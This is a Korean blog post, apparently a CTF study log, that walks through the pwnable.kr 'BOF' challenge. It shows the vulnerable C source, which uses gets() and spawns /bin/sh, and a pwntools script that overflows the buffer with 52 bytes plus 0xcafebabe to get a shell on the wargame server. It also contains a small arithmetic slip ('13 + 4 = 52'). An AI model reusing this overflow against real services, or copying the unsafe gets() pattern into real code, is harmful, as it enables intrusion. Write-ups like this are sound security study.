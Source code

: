 ```yaml
---
layout: post
date: 2021-01-25 00:00:03
title: "Pwnable Exploitation"
categories: Pwnable
tags: [PWN]
author:
  - Jeongwon Jo
---
```

<strong>앞 전에 포너블을 공부를 조금하다가 다시 안 했는데 오늘부터 다시 하루마다 포너블 문제를 조금씩 풀어보려고 합니다.</strong><br>

---
## PWN D+1 (2021.01.25)<br>

---
Pwnable.kr Challenge : BOF

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

<strong>처음 풀어 볼 문제는 Pwnable.kr의 BOF라는 문제입니다. func 함수를 보면 key의 값이 `0xcafebabe`이면 system 함수를 호출하는 것을 볼 수 있습니다. BOF를 이용해서 key 값을 `0xcafebabe` 바꿔주면 될 거 같습니다.</strong><br>

![](https://github.com/wjddnjs33/image2/blob/main/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-01-25%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%206.16.07.png?raw=true)

<strong>func 중간에 브레이크 포인트를 걸어 key의 주소를 확인해보면 13 + 4 = 52만큼 떨어져 있는 것을 볼 수 있습니다.</strong><br>

```python
from pwn import *
p = remote("pwnable.kr", 9000)

payload = b"a" * 52
payload += p32(0xcafebabe)

p.sendline(payload)
p.interactive()
```
